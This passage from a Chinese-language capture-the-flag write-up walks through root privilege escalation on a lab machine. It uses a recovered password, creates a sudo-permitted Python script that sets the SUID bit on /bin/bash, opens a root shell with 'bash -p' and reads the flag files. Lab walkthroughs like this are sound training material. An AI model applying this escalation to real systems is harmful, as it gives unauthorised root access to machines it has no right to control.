 获取到密码 `john:TI!Powerful2024`。再次检查`sudo`权限。

```bash
john@TheHackersLabs-Gyhabogados:~$ sudo -l
[sudo] password for john: TI!Powerful2024
...
User john may run the following commands on TheHackersLabs-Gyhabogados:
    (ALL) PASSWD: /usr/bin/python3 /home/john/tools/backup.py
```

`john`用户可以以root权限执行一个位于`/home/john/tools/backup.py`的Python脚本。但检查发现该文件和目录并不存在。

```bash
john@TheHackersLabs-Gyhabogados:~$ ls -al /home/john/tools/backup.py
ls: cannot access '/home/john/tools/backup.py': No such file or directory
```

这是一个典型的sudo权限配置错误。我们可以自行创建该脚本，并写入提权代码。这里选择为`/bin/bash`添加SUID权限位。

```bash
john@TheHackersLabs-Gyhabogados:~$ echo 'import os; os.system("chmod +s /bin/bash")' > /home/john/tools/backup.py
```

执行`sudo`命令触发Payload。

```bash
john@TheHackersLabs-Gyhabogados:~$ sudo /usr/bin/python3 /home/john/tools/backup.py
john@TheHackersLabs-Gyhabogados:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```

可以看到`/bin/bash`已成功设置SUID位。现在执行`bash -p`即可获得一个euid为0的root权限Shell。

```bash
john@TheHackersLabs-Gyhabogados:~$ bash -p
bash-5.2# id
uid=1003(john) gid=1003(john) euid=0(root) egid=0(root) groups=0(root),100(users),1003(john),1005(it)
```

# 四、获取凭证

成功提权至root后，读取最终的flag文件。

```bash
bash-5.2# cat /home/dean/user.txt
930b5a4b9098abfdaa67f93a937593bf

bash-5.2# cat /root/notes.txt | grep Flag
Flag: 63baa2b1cd7ac490cf34e7c6a317067b
```

成功获取user和root两个flag，渗透测试完成。
